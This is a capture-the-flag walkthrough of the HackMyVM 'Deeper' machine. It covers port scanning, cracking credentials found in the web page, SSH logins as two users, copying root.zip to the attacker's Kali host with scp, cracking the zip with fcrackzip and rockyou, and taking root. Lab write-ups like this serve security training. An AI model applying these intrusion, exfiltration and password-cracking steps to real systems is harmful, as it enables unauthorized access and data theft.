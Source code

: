 ```yaml
---
categories: [HackMyVM]
tags: [PrivEsc, enum, fcrackzip, scp]
img_path: /Vulnhub-Files/img/
image:
  path: Deeper/Untitled.png
  alt: HackMyVM Machine ⚔️
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#scp</kbd>&nbsp;&nbsp;<kbd>#fcrackzip</kbd>&nbsp;&nbsp;<kbd>#enum</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Deeper/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.82   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:08 IST
Nmap scan report for 10.0.2.82
Host is up (0.00083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 37:d1:6f:b5:a4:96:e8:78:18:c7:77:d0:3e:20:4e:55 (ECDSA)
|_  256 cf:5d:90:f3:37:3f:a4:e2:ba:d5:d7:25:c6:4a:a0:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Deeper
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:58:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

While checking port 80 →

![Untitled](Deeper/Untitled%202.png)

I checked the source code and got the `PATH` →

![Untitled](Deeper/Untitled%203.png)

After going in this path I got the credentials →

![Untitled](Deeper/Untitled%204.png)

and Password through scrolling further more →

![Untitled](Deeper/Untitled%205.png)

Now I decoded these encodings/hashes and got the results for SSH Login →

I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for cracking of these hashes →

![Untitled](Deeper/Untitled%206.png)

After cracking password I logged in as user Alice .

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh alice@10.0.2.82                  
The authenticity of host '10.0.2.82 (10.0.2.82)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.82' (ED25519) to the list of known hosts.
alice@10.0.2.82 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ ls -al
total 32
drwxr--r-- 3 alice alice 4096 Aug 26 00:14 .
drwxr-xr-x 4 root  root  4096 Aug 25 20:07 ..
lrwxrwxrwx 1 alice alice    9 Aug 25 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25 17:58 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25 17:58 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25 20:43 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26 00:14 .local
-rw-r--r-- 1 alice alice  807 Aug 25 17:58 .profile
-rw-r--r-- 1 alice alice   33 Aug 26 00:14 user.txt
alice@deeper:~$
```
{: .nolineno}

Now I got the encoded password for bob user from `.bob.txt` file .

I Logged in as bob user →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh bob@10.0.2.84      
The authenticity of host '10.0.2.84 (10.0.2.84)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.84' (ED25519) to the list of known hosts.
bob@10.0.2.84 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:05:57 2023 from 192.168.100.103
bob@deeper:~$ ls -al
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26 00:22 .
drwxr-xr-x 4 root root 4096 Aug 25 20:07 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25 20:44 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25 20:17 .local
-rw-r--r-- 1 bob  bob   807 Aug 25 20:09 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26 00:21 root.zip
bob@deeper:~$ file root.zip 
root.zip: Zip archive data, at least v1.0 to extract, compression method=store
bob@deeper:~$ unzip 
-bash: unzip: command not found
bob@deeper:~$
```
{: .nolineno}

I have to transfer this `root.zip` file to the attacker machine so for that I used the command `scp` that id used to transfer files.

```bash
bob@deeper:~$ scp root.zip kali@10.0.2.77:~/Downloads/HackMyVM/Deeper/root.zip
kali@10.0.2.77's password: 
root.zip                      100%  215    82.9KB/s   00:00    
bob@deeper:~$
```
{: .nolineno}

 

Now this file is password protected to I used another Tool called as `fcrackzip` to crack this zip file password →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob
```
{: .nolineno}

Now I extracted the password of root user from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```
{: .nolineno}

Now I am root !!

```bash
bob@deeper:~$ su root
Password: 
root@deeper:/home/bob# cd ~
root@deeper:~# ls -al
total 32
drwx------  4 root root 4096 Aug 26 00:48 .
drwxr-xr-x 18 root root 4096 Aug 25 17:55 ..
lrwxrwxrwx  1 root root    9 Aug 25 18:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25 23:57 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25 19:53 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26 00:48 root.txt
drwx------  2 root root 4096 Aug 25 17:52 .ssh
root@deeper:~# whoami
root
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@deeper:~# hostname
deeper
root@deeper:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:33:4f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.84/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 440sec preferred_lft 440sec
    inet6 fe80::a00:27ff:fe33:4f51/64 scope link 
       valid_lft forever preferred_lft forever
root@deeper:~# cat root.txt
FLAG----FLAG----FLAG----FLAG
root@deeper:~#
```
{: .nolineno}

